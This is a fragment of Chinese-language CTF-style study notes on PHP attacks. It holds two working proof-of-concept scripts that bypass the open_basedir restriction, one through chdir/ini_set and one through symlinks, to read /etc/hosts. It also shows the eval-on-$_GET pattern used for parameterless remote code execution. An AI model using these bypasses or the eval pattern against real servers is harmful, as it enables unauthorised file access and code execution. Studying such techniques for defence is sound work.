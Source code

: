 读取文件

```
&lt;?php
    show_source(__FILE__);
    print_r(ini_get(&#39;open_basedir&#39;).&#39;&lt;br&gt;&#39;);
    
    mkdir(&#39;test&#39;);
    chdir(&#39;test&#39;);
    ini_set(&#39;open_basedir&#39;,&#39;..&#39;);
    chdir(&#39;..&#39;);
    chdir(&#39;..&#39;);
    chdir(&#39;..&#39;);
    ini_set(&#39;open_basedir&#39;,&#39;/&#39;);
    
    echo file_get_contents(&#39;/etc/hosts&#39;);

?&gt;
```

```
&lt;?php
    show_source(__FILE__);
    
    mkdir(&#34;1&#34;);chdir(&#34;1&#34;);
    mkdir(&#34;2&#34;);chdir(&#34;2&#34;);
    mkdir(&#34;3&#34;);chdir(&#34;3&#34;);
    mkdir(&#34;4&#34;);chdir(&#34;4&#34;);
    
    chdir(&#34;..&#34;);chdir(&#34;..&#34;);chdir(&#34;..&#34;);chdir(&#34;..&#34;);
    
    symlink(&#34;1/2/3/4&#34;,&#34;tmplink&#34;);
    symlink(&#34;tmplink/../../../../etc/hosts&#34;,&#34;bypass&#34;);
    unlink(&#34;tmplink&#34;);
    mkdir(&#34;tmplink&#34;);
    echo file_get_contents(&#34;bypass&#34;);
?&gt;
```



## 无参数RCE

### 特征

```
if(&#39;;&#39; === preg_replace(&#39;/[^\W]&#43;\((?R)?\)/&#39;, &#39;&#39;, $_GET[&#39;star&#39;])) {    
    eval($_GET[&#39;star&#39;]);
}
```

匹配一个或多个非标点的符号字符

### 相关函数
